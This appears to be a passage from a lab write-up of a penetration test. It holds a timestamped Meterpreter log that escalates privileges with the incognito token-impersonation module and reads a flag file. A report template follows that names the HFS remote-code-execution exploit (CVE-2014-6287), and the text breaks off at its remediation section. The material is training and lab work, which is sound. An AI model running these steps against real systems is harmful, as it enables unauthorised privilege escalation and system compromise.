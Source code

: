#### **Command Output Documentation:**
```bash
# Complete command sequence with timestamps
[2024-07-12 12:44:15] meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE

[2024-07-12 12:44:32] meterpreter > load incognito
Loading extension incognito ... Success.

[2024-07-12 12:44:45] meterpreter > list_tokens -u
Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

[2024-07-12 12:45:02] meterpreter > impersonate_token ATTACKDEFENSE\\Administrator
[+] Successfully impersonated user ATTACKDEFENSE\Administrator

[2024-07-12 12:45:15] meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator

[2024-07-12 12:45:28] meterpreter > cat C:\\Users\\Administrator\\Desktop\\flag.txt
x28c832a39730b7d46d6c38f1ea18e12
```

### **Quick Report Template:**
```markdown
## Token Impersonation Assessment Report

**Assessment Date:** 2024-07-12
**Target System:** demo.ine.local (10.0.20.121)
**Tester:** [Your Name]
**Methodology:** Token Impersonation via Incognito Module

### Executive Summary:
Successfully escalated privileges from NT AUTHORITY\LOCAL SERVICE to ATTACKDEFENSE\Administrator using Windows token impersonation techniques. Complete system compromise achieved.

### Technical Details:

**Initial Access Vector:**
- Service: HttpFileServer httpd 2.3
- Vulnerability: Remote Code Execution (CVE-2014-6287)
- Exploit: exploit/windows/http/rejetto_hfs_exec

**Privilege Escalation:**
- Method: Windows Token Impersonation
- Tool: Metasploit Incognito Module
- Source Privilege: NT AUTHORITY\LOCAL SERVICE
- Target Privilege: ATTACKDEFENSE\Administrator

**Evidence:**
- Flag Retrieved: x28c832a39730b7d46d6c38f1ea18e12
- File Access: C:\Users\Administrator\Desktop\flag.txt
- System Control: Full administrative access confirmed

### Risk Assessment:
**CRITICAL RISK** - Complete system compromise achieved
- Weak service configuration allowed initial access
- Insufficient token isolation enabled privilege escalation
- Administrative access grants full system control

### Remediation Recommendations:
```